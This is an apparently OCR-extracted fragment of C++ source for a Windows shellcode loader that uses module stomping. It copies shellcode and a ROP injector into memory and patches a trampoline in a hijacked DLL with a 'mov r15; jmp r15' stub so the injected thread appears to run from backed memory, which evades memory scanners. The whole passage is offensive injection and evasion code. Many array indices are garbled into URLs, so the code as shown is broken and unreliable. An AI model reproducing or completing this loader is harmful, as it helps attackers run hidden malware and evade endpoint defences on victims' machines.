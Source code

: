 ```cpp
        printfFunc("%02x", injector[kk - 1]);

        if (kk % 12 == 0) {
            printfFunc("\n");
        }
    }
    printfFunc("\n");
    printfFunc("--- END\n");
#endif


    /**
    * The Following code copy the main shellcode in the previously allocated RX section
    * there for execution. It also patch the relevant trampoline to ensure the started  
    * thread has a return address in the hijacked module, rather than in the unbacked memory. 
    */

    // Copy shellcode into memory
    memcpyFunc(address, (void*)shellcodeAddress, shSize);

    // Copy ROP injector into memory
    memcpyFunc(ropInjectorAddress, SleepRoutine, SLEEP_ROUTINE_SIZE);
    memcpyFunc((LPVOID)((ULONG64)ropInjectorAddress + SLEEP_ROUTINE_SIZE), injector, N_ROP_GADGETS * MOV_SPACE + 1);

#ifdef _DEBUG
    printfFunc("Shellcode address: 0x%llx\n", (ULONG64)address);
    printfFunc("ROP Injector address: 0x%llx\n", (ULONG64)ropInjectorAddress);
#endif

    /*
        Patching Trampoline to JMP to the shellcode in memory
    */

    UINT64 target = (UINT64)address;

    UCHAR patch(https://offensivedefence.co.uk/posts/module-stomping/) = { 0 };
    // mov r15, <address>
    patch[0] = 0x49;
    patch(https://github.com/klezVirus/inceptor.git) = 0xBF;
    // Hton Trampoline Address
    patch(https://github.com/Idov31/FunctionStomping) = target & 0x00000000000000ff;
    patch(https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/) = (target & 0x000000000000ff00) >> 8;
    patch(https://github.com/Idov31/FunctionStomping) = (target & 0x0000000000ff0000) >> 16;
    patch(https://twitter.com/Idov31) = (target & 0x00000000ff000000) >> 24;
    patch(https://twitter.com/hasherezade) = (target & 0x000000ff00000000) >> 32;
    patch(https://twitter.com/modexpblog) = (target & 0x0000ff0000000000) >> 40;
    patch(https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/) = (target & 0x00ff000000000000) >> 48;
    patch(https://twitter.com/waldoirc) = (target & 0xff00000000000000) >> 56;
    // jmp r15
    patch(https://github.com/waldo-irc/YouMayPasser/) = 0x41;
    patch(https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/) = 0xFF;
    patch(https://twitter.com/_rastamouse) = 0xE7;

    DWORD oldProtect;

    // Making DLL memory writable
    VirtualProtectFunc((LPVOID)trampolineAddress, 13, PAGE_EXECUTE_READWRITE, &oldProtect);

    memcpyFunc((LPVOID)trampolineAddress, patch, 13);

```